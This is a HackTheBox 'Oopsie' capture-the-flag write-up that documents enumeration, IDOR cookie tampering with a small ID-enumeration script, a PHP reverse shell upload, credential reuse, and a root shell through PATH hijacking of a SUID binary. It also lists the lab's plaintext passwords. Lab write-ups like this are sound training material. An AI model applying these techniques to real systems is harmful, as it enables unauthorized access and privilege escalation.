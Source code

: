 # Oopsie 10.10.10.28 - HackTheBox - Starting Point

Notes from the Oopsie box, HackTheBox Starting Point, 18/05/2021.

# Enumeration

## Nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website 10.10.10.28

Overview

![](images/2021-05-17-24-44.png)

-None of the links work.

![](images/2021-05-17-32-22.png)

Possible user "admin".
Possible domain "megacorp.com". < added to /etc/hosts.

## Gobuster | directory-list-2.3-medium.txt

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/17 19:29:16 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.28/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.28/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.28/fonts/]
/server-status        (Status: 403) [Size: 276]

===============================================================
2021/05/17 19:39:31 Finished
===============================================================
```

Found the directory "/cdn-cgi/login" looking at the source code.

![](images/2021-05-17-16-23.png)

## /cdn-cgi/login/

![](images/2021-05-17-18-28.png)

We can log in with the user "admin" and password "MEGACORP_4dm1n!!" (same password from last box Archetype).

## admin.php

Overview.

![](images/2021-05-17-23-55.png)

In the admin page we can access Account, Branding and CLients tabs. To access Uploads we need super admin rights.

![](images/2021-05-17-22-36.png)

# Getting access

Its possible to manipulate the value "id" in the url and check other users. Access ID identifies the user logged in. By changing the value of the cookie "User" with the value of another user Access ID it is possible to use his account.

![](images/2021-05-17-26-12.png)

Since not all user ids are valid with the following python script it is possible to check which ones are empty based on the size of the response.

## test.py

```py
import requests
cookie = dict(user='34322')
url = "http://megacorp.com/cdn-cgi/login/admin.php?content=accounts&id="
for i in range(0, 100):
    r = requests.get(url+str(i), cookies=cookie)
    print("id: " + str(i) + " " + str(len(r.content)))
```

Here is some of the output.

![](images/2021-05-18-17-58.png)

Everything different than 3595 is a valid user id, after checking I found Super admin at id=30. Changed value of the cookie user, now I'm super admin.

![](images/2021-05-17-32-02.png)

After that it is possible to upload a php reverse shell. [PentestMonkeyPHPRevShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![](images/2021-05-17-36-25.png)

Navigate to http://megacorp.com/uploads/rever-shell.png.php and receive a shell.

![](images/2021-05-17-38-01.png)

Flag user.txt at /home/robert/user.txt

![](images/2021-05-17-40-53.png)

# Privilege escalation

## robert

In the home directory of www-data (/var/www), in /html/cdn-cgi/login there is a "db.php" file, robert's credentials are in this file.

![](images/![](images/2021-05-17-50-04.png).png)

## root

Searching for SUID binaries I found "bugtracker".

![](images/2021-05-17-32-31.png)

All this does is cat a file from "/root/reports".

![](images/2021-05-17-34-19.png)

Using "../root.txt" as input we can get the root flag.

![](images/2021-05-17-35-29.png)

Using ltrace on the binary we can see that it calls "cat" not using the full path. By creating another "cat" binary that will spawn a shell and putting the directory in PATH it is possible to obtain a shell as root.

![](images/2021-05-18-04-33.png)

# Extra

In the .config folder in the root directory there is a "filezila.xml" file with credentials for ftp in the host 10.10.10.46 (next machine in StartingPoint).

![](images/2021-05-18-26-37.png)

# Credentials.

## Website
admin:MEGACORP_4dm1n!!

## Linux user
robert:M3g4C0rpUs3r!

## Ftp at 10.10.10.46
ftpuser:mc@F1l3ZilL4
